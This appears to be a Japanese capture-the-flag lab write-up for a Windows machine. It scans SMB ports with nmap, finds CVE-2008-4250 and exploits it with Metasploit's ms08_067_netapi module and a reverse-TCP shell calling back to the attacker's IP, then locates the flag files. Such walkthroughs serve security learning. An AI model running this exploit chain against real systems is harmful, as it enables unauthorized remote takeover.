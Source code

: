 # 1.Port Scan

対象マシンのポートをスキャン
`ip=10.10.10.4`

![969b3d0408e3679cdd641d4f04f282bc.png](/_resources/969b3d0408e3679cdd641d4f04f282bc.png)

スキャンすると139ポートでファイル共有サービスである「netbios-ssn」が稼働している事を確認
下記コマンドで関連した脆弱性「CVE-2008-4250」を確認
`nmap -p 139,445 --script smb-vuln* $ip`
![e89f5a902061d2d867d051eb5c1521ff.png](/_resources/e89f5a902061d2d867d051eb5c1521ff.png)
CVE-2008-4250を調べた結果Microsoft Windowsのサーバーサービスに存在する深刻なリモートコード実行の脆弱性とのこと
CVE-2008-4250で使用するMetasploitモジュールを調べた結果「ms08\_067\_netapi 」であることを確認

# 2.Exploit

Metasploit Framework を使用
`msfconsole`
![dda8211d9f70db879b6910ee56f5b2ca.png](/_resources/dda8211d9f70db879b6910ee56f5b2ca.png)

下記コマンドを使用してExploitを設定
・使用するエクスプロイトを設定
`use exploit/windows/smb/ms08_067_netapi`
・ターゲットIPを設定
`set rhosts $ip`
・ペイロードを設定
`set PAYLOAD windows/meterpreter/reverse_tcp`
・攻撃者のIPを設定
`set lohos$ip`
・targetIDを設定しシステムを選択
`set target 6`
・エクスプロイトを実行
`exploit`

use exploit/windows/smb/ms08\_067\_netapi
set rhosts 10.10.10.4
set PAYLOAD windows/shell\_reverse\_tcp
set lhost 10.10.14.16
set target 6
exploit
![995710ca38ad78b630d608772edca427.png](/_resources/995710ca38ad78b630d608772edca427.png)

# 3.Flag Get

`Wher root.txt`

![c393c7902856b6b600a69a0f0f47f730.png](/_resources/c393c7902856b6b600a69a0f0f47f730.png)
whereコマンドが使えない為問題文をヒントに捜索
`dir`
`cd Documents and Settings`
`dir`
![ae8ed31c87fa51bf5a64ad75f884d576.png](/_resources/ae8ed31c87fa51bf5a64ad75f884d576.png)
ディレクトリ「Administrator」と「john」を発見。移動した所それぞれ「user.txt」と「root.txt」を確認
`cd john`
`cd Desktop`
`dir`
![9ebce44990399803ff8b84a5d371f034.png](/_resources/9ebce44990399803ff8b84a5d371f034.png)
cd Administrator
cd Desktop
dir
![7758ee9c7885fe605c383351c4153a22.png](/_resources/7758ee9c7885fe605c383351c4153a22.png)
